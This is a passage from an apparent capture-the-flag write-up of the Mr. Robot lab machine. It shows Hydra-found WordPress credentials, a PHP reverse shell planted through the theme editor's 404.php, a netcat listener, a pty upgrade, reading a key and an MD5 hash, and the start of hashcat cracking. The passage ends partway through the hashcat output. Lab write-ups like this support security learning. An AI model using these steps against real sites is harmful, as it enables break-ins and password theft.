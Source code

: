 ```console
[80][http-post-form] host: 192.168.229.162   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-25 13:31:56
```

## Exploitation

After signing in as Elliot I get admin access to the wordpress site. I used Appearance->Editor->404.php to get a reverse shell by replacing the contents of the page with a php reverse shell
After starting a reverse shell and going to an invalid page using curl I got a reverse shell

<img class="ui image" src="{{ site.baseurl }}/images/writeups/vuln/mr-robot/3.png">


```console
┌──(root💀Toyin)-[~/infosec/lab/mr-robot]
└─# curl http://192.168.229.162/shell

┌──(root💀Toyin)-[~/infosec/lab/mr-robot]
└─# nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.28.144.1 32484
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:48:02 up  1:12,  0 users,  load average: 0.00, 0.20, 1.76
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ python3 -c "import pty; pty.spawn('/bin/bash')"
daemon@linux:/$
```

I found the user “robot”. Going to the home directory I found 2 files, key 2 and a password file

```console
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Sending the hash to my windows machine for cracking with hashcat. It doesn't take long and I get the password for the user robot
I then changed to the user to be able to read the next key

```powershell
PS D:\hashcat> ./hashcat -a 0 -m 0 .\hashes\robot.txt .\wordlists\custom-uniq.txt
hashcat (v6.1.0) starting...

OpenCL API (OpenCL 1.2 CUDA 11.2.152) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #1: GeForce GTX 1050, 1600/2048 MB (512 MB allocatable), 5MCU

OpenCL API (OpenCL 2.1 ) - Platform #2 [Intel(R) Corporation]
=============================================================
* Device #2: Intel(R) HD Graphics 630, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

```